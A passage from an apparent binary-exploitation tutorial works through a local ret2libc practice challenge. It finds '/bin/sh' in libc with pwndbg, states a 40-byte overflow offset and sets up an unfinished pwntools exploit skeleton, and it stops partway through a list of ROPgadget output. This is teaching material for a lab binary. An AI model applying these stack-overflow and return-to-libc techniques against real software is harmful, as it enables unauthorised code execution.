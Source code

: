 If we search for `/bin/sh` like before we won't see it in our binary like in ROP program but we see in shared library of `libc`

```bash
pwndbg> search /bin/sh
Searching for byte: b'/bin/sh'
libc.so.6       0x7ffff7dcb42f 0x68732f6e69622f /* '/bin/sh' */
```

First lets find at what offset overflow occurs like in all previous Challenges. After doing it we get offset at `40`, read Stack Overflow section for doing it we have repeated same step to find offset. Now lets write exploit.

```python
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2libc')

io = process()

payload = cyclic(40) + pack()

io.sendline(payload)

io.interactive()

```

This time we dont have any address to put in `pack()` where it can return to, Unlike in ROP we cant take from system function because it doesn't exist but we can take gadgets from shared library. Lets use ROPgadget to see gadgets that we can use first.

```bash
❯ ROPgadget --binary ret2libc 
Gadgets information
============================================================
0x000000000040111d : add ah, dh ; nop ; endbr64 ; ret
0x000000000040114b : add bh, bh ; loopne 0x4011b5 ; nop ; ret
0x00000000004012dc : add byte ptr [rax], al ; add byte ptr [rax], al ; endbr64 ; ret
0x000000000040125c : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x000000000040125d : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000401036 : add byte ptr [rax], al ; add dl, dh ; jmp 0x401020
0x00000000004011ba : add byte ptr [rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004012de : add byte ptr [rax], al ; endbr64 ; ret
0x000000000040111c : add byte ptr [rax], al ; hlt ; nop ; endbr64 ; ret
0x000000000040125e : add byte ptr [rax], al ; leave ; ret
0x000000000040100d : add byte ptr [rax], al ; test rax, rax ; je 0x401016 ; call rax
0x00000000004011bb : add byte ptr [rcx], al ; pop rbp ; ret
0x00000000004011b9 : add byte ptr cs:[rax], al ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x000000000040111b : add byte ptr cs:[rax], al ; hlt ; nop ; endbr64 ; ret
0x000000000040125f : add cl, cl ; ret
0x000000000040114a : add dil, dil ; loopne 0x4011b5 ; nop ; ret
0x0000000000401038 : add dl, dh ; jmp 0x401020
0x00000000004011bc : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x00000000004011b7 : add eax, 0x2e9b ; add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401085 : add eax, 0xf2000000 ; jmp 0x401020
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x000000000040121f : call qword ptr [rax + 0xff3c3c9]
0x000000000040103e : call qword ptr [rax - 0x5e1f00d]
0x0000000000401014 : call rax
0x00000000004011d3 : cli ; jmp 0x401160
0x0000000000401123 : cli ; ret
0x00000000004012eb : cli ; sub rsp, 8 ; add rsp, 8 ; ret
0x00000000004011d0 : endbr64 ; jmp 0x401160
```